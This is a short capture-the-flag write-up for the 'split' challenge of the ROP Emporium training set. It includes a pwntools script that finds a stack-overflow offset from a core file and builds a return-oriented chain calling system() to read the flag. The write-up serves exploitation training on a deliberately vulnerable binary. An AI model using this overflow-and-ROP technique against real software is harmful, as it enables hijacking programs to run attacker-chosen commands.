




# split

Right of the bat ROPE (Rop Empire) mentions a secret, the `useful` string. Searching for it results that there are more useful resources at the hand. 



Now what is `usefulFunction`? It’s less useful, it just lists the files in the current directory however it does tell us that `system` is imported by calling it.



Before making the payload, what’s the `usefulString`?. It reads the flag, exactly what is needed!

By comparing the address of `usefulString` and the last string results in a match.



With those two components in mind, a payload can be formed.

Although ROPE already mentioned that for the 64bit arch the offset is 40 bytes, that doesn’t mean it can’t be correctly scripted

```python
# Don't fill workdir with core files
core.delete_corefiles = True
io.start()

# Send a lot of junk
junk = cyclic(128)
io.send(junk)
io.wait()

# Parse the core file and find RSP
core = io.corefile
rsp = core.rsp

# Which pattern filled the RIP
## Alternatively, the finding the cycle
## of the fault address works to, but it creates a warning
pattern = core.read(rsp, 4)
padding = cyclic_find(pattern)

# Create the ROP for payload
elf = ELF(exe, checksec=False)
rop = ROP(elf)

# Insert system call with the address of the `usefulString`
rop.system(elf.symbols.usefulString)

payload = flat({
	padding: rop.chain()
})

# Start again the binary and send proper payload
io = start()
io.sendlineafter(b'> ', payload)
io.recv()

# Profit
flag = io.recvline()
log.success(flag.decode())
```


